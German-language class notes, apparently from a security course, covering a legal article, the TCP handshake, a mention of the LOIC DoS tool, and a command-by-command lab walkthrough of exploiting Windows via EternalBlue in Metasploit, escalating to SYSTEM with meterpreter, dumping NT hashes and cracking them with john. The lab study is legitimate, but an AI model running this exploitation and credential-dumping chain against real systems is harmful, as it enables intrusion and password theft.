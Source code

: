 # **Mitschrift**
#### Datum: 29.04.2020
### **Thema: gesetzliche Angelegeneheiten**
[Artikel Zur Strafe heise.de](https://www.heise.de/ix/artikel/Zur-Strafe-1892408.html?artikelseite=&view=)

---
### **Thema: TCP** 
![img](https://upload.wikimedia.org/wikipedia/commons/thumb/9/98/Tcp-handshake.svg/1024px-Tcp-handshake.svg.png)

![img2](https://2.bp.blogspot.com/-Q1OvitIDVFE/T9opuETUwcI/AAAAAAAACB4/T1TaXfGxj94/s1600/Low-Orbit-Ion-Cannon.png)


- Ist ein "**nicht legales** Tool" für Dos-Angriffe **"Benutzung auf eigene Gefahr"**
[![IMAGE ALT TEXT](https://tse2.mm.bing.net/th?id=OIP.szMmUNZjK6gT6qrs8uhk9QHaD4&pid=Api)](https://youtu.be/Bbrkc7AXtKg "Video Title")
- Tutorial 
---

### **Sonnleiter Era**
 ``` 
- sudo openvpn exotechly.ovpn &
- ip a
- 10.9.41.189
- nmap 10.10.125.160 | tee nmap-standard 
- nmap --script vuln -p 135,139,445 10.9.41.189 
  - um herauszufinden ob es sich um eine Windows Maschine handelt 
- nmap --script vuln -p 135,149,445 10.10.227.183 |tee nmap-vuln
 ```
# Zweite Session 

```
1. nmap -sV -sC --script vuln -oN blue.nmap 10.10.137.78
2. msfconsole
3. search ms17
4. search eternal
5. use 3 
6. show options
7. set rhosts 10.10.73.63
=> remote host (target)
8. run 
9.C:\Windows\system32>
Optional
set rhots 10.10.201.164
run
exploit
show options
set LPORT 4445
```
## Task 3
```
1. use post/multi/manage/shell_to_meterpreter
2. show options
3. set session 1
4. run 
5. session 
6. sessions 
=> wir sollten jetzt eine 2 Session haben. 
7. sessions -i 2
=> Startet eine Interaktion 
8. getuid
=> NT AUTHORITIY\SYSTEM
9. shell
10. whoami
11. strg + z
12. ps
=> spoolsv.exe, hängt sich an diesen Prozessor, x64, NT AUTHORITY\SYSTEM
13. migrate (Prozessid)
14. getuid

```
## Task 4
```
15. hashdump
=> copy key vom john
16. echo "john"
17. john jon.hash --format=NT --wordlist=/opt/rockyou.txt
```
## Nächste Woche BitTorrent

